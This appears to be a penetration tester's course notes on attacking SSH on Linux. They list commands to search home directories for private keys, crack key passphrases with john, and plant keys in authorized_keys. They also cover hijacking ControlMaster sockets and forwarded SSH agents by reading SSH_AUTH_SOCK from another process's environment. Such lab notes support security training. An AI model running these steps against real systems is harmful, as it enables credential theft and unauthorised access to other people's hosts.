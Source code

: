```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SSH
---
```


<span style="font-size: 35px; color:red"><b>SSH</b></span>

Look for unprotected SSH Keys:
```shell
find /home/ -name "id_rsa"
```

Once find, <span style="color:red">cat id_rsa</span> to see if it's encrypted. The "DEK-Info" declare the type of encryption used.
If encrypted, use <span style="color:red">SSH2JOHN</span> to transform it into hash and crack it with john/hashcat:
```shell
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
```
If cracked, add your id_rsa to the authoryzed_keys after you get the SSH shell.

Also, check <span style="color:red">~/.bash_history</span> or <span style="color:red">~/.ssh/known_hosts</span> to see who connected recently (might be hashed, if so, nothing to do here).
&nbsp;

---
&nbsp;
<span style="font-size: 30px; color:white"><b>SSH Hijacking</b></span>

<span style="font-size: 25px; color:white"><b>With ControlMaster</b></span>
Use an existing ssh session using ControlMaster (functionality that allows a user to open multiple sessions).
Check <span style="color:red">~/.ssh/controlmaster/</span> to see if there's any socket in the form of <span style="color:red"><b>user@domain:22</span>
If so, you can use it like:
```shell
ssh -S /home/user/.ssh/controlmaster/user\@domain\:22 user@domain
```
no password required!
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>With SSH-Agent</b></span>

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.
<span style="color:red">Client --> Intermediate Host --> Final Host</span>

Both Intermediate and Final Host need to have the same public key (<span style="color:red">ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain</span> for both domains). 
- <span style="color:red">ForwardAgent yes</span> on <span style="color:red">~/.ssh/config</span>.
- <span style="color:red">AllowAgentForwarding yes</span> on <span style="color:red">/etc/ssh/sshd_config</span>.
- Start SSH_Agent: _eval <span style="color:red">ssh-agent</span>
- Add key to SSH-Agent: <span style="color:red">ssh-add</span>
Done, you can now connect to Intermediate Host and then from there to Final Host.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Exploitation</b></span>
If there's a connection to the <span style="color:red">Intermediate Host</span>, then it's exploitable (check with <span style="color:red">ps aux | grep ssh</span>).
To get ID (PID) value for the SSH processes: <span style="color:red">pstree -p offsec | grep ssh</span>. (just chose one of them).
Cat the process out to find the <span style="color:red">SSH_AUTH_SOCK</span> variable: 
```shell
cat /proc/<PID>/environ
```
Then <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l</span> and <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim</span>

